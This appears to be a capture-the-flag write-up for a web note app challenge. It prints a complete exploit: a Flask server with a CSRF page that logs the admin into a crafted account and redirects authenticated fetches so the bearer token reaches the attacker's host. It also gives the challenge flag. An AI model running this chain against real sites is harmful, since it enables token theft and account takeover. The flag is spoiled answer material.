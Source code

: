 # Simple Notes

### Category

Web

### Description

```
XXX

Report a vulnerability: `curl -X POST -d "url=https://172.17.0.1:8000/csrf" https://localhost:5000/report -k`
```

Format : **Hero{flag}**<br>
Author : **Mizu**

## Write up

This website is a basic web note manager which involves stealing admin's notes. Thanks to the `/static/js/main.js` file it is possible to get all routes information.

```js
var loginAPI = async (username, password) => {
    var res = await fetchAPI("/api/login", "POST", {
}
var registerAPI = async (username, password) => {
    var res = await fetchAPI("/api/register", "POST", {
}
var logoutAPI = () => {
    location.href = "/logout?r=/login";
}
var profileAPI = async (user) => {
    var res = await fetchAPI(`/api/user/${user}`, "GET")
}
    var res = await fetchAPI(`/api/user/${user}/create`, "POST", {
}
var loadNoteAPI = async (user, uuid) => {
    var res = await fetchAPI(`/api/user/${user}/${uuid}`, "GET")
}
var editNoteAPI = async(user, uuid, title, content) => {
    var res = await fetchAPI(`/api/user/${user}/${uuid}/edit`, "POST", {
}
```

From these, it is possible to find the `/logout?r` endpoint which is vulnerable to open redirect. In addition, several endpoints use the `username` value inside the path of a `fetch` requests, making it vulnerable to client side path traversal. In case of a `fetch` with specific headers (in our case `Authorization`), which reach a server side redirect, the browser recreate the query with the same option to the new domains (more information [here](https://github.com/whatwg/fetch/issues/944)). Thanks to that, it is possible to leak the API bearer token if we control the admin username.

Thus, it is necessary to control the admin username or exploit a CSRF to log him into a vulnerable account. Something interesting in the challenge configuration is the usage of the Bearer token. In fact, he is retrieved from the localStorage before each request. This means that, in case of a CSRF, this value won't change and it would be possible to create a situation where the admin has a vulnerable front end account and his API bearer.

```js
var fetchAPI = async (path, method, data) => {
    var options = {};
    options.method = method;
    options.headers = {}
    options.headers["Content-Type"]  = "application/json";
    if (data)
        options.body = JSON.stringify(data);

    var bearer = localStorage.getItem("bearer"); // Token retrieved here :p
    if (bearer)
        options.headers["Authorization"] = `Bearer ${bearer}`;

    return fetch(path, options).then(d => d.json()).then((d) => { return d });
}
```

Unfortunately, no CSRF is possible as, the API enfore `application/json` content type which is not possible by a `form`. However, `/api` has a permissive CORS:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
...
```

In addition, the session cookie as `SameSite: None` attribute both issues allow to set cookie cross site via a fetch request inside a `sandbox` iframe. Bringing everything together and we get:

```py
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
cors = CORS(app, resources={
    r"/*": {
        "origins": "*"
    }
}, allow_headers=[
    "Authorization",
    "Content-Type"
], supports_credentials=True)

@app.route("/")
def index():
    print(request.headers)
    return ""

@app.route("/csrf")
def csrf():
    return """
    <div id="exploit"></div>

    <script>
        // Init
        var host = "https://localhost:5000"
        var username = "../../logout?r=https://172.17.0.1:8000/";
        var password = "mizu";

        // Change account
        var ifr  = document.createElement("iframe");
        ifr.sandbox = "allow-scripts allow-top-navigation";
        ifr.srcdoc  = `<script>
            fetch("${host}/api/login", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify({
                    "username": "${username}",
                    "password": "${password}"
                }),
                credentials: "include"
            }).then(d => d.json()).then((d) => {
                top.location.href = "${host}/api/";
            })
        <\x2Fscript>`;
        exploit.appendChild(ifr);
    </script>
    """

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000, ssl_context=("cert/cert.pem", "cert/key.pem"))

```

Then, we just need to make a good curl query to retrieve the admin's notes and the flag!

![2023-03-27-132939_1906x167.png](solve/images/2023-03-27-132939_1906x167.png)

### Flag

```
Hero{Cl13nT_S1d3_P4tH_Tr4v3rS4l_T0_R3d1r3cT}
```
